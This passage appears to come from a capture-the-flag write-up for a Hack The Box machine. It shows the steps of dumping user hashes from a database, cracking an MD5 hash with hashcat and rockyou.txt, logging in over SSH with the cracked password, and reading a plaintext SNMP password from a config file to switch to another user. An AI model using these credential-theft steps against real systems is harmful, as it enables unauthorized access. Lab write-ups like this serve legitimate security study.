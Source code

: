 ```postgres
select * from users;
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230123061515.png)

- Take the relevant hashes for `james` and `svc`.
- Put them in a file. I named mine `hashes`.

```bash
7ccdcd8c05b59add9c198d492b36a503
53f22d0dfa10dce7e29cd31f4f953fd8
```

- Run a hash in `hash-identifier`:
 
![image](https://0xc0rvu5.github.io/docs/assets/images/20230123061720.png)

`MD5` will be `Hash-Mode` number 0 for `hashcat`.

```bash
hashcat -a 0 -m 0 hashes rockyou.txt
```

- Output:

```bash
53f22d0dfa10dce7e29cd31f4f953fd8:123meunomeeivani
```

![image](https://0xc0rvu5.github.io/docs/assets/images/20230123061859.png)

Nice!

- After failing to `ssh` and login as `james` we got to login as `svc`

```bash
ssh svc@mentorquotes.htb
Password: 123meunomeeivani
```

- After manual enumeration if you were like me you will bust out `linpeas.sh`.
- You will find some relevant information in the `/etc/snmp/snmp.conf` file.

![image](https://0xc0rvu5.github.io/docs/assets/images/20230123062202.png)

```bash
cat -n /etc/snmp/snmp.conf

    92	createUser bootstrap MD5 SuperSecurePassword123__ DES
    93	rouser bootstrap priv
```

- Attempting to login into `james` is a success!

```bash
su - james
Password: SuperSecurePassword123__
```
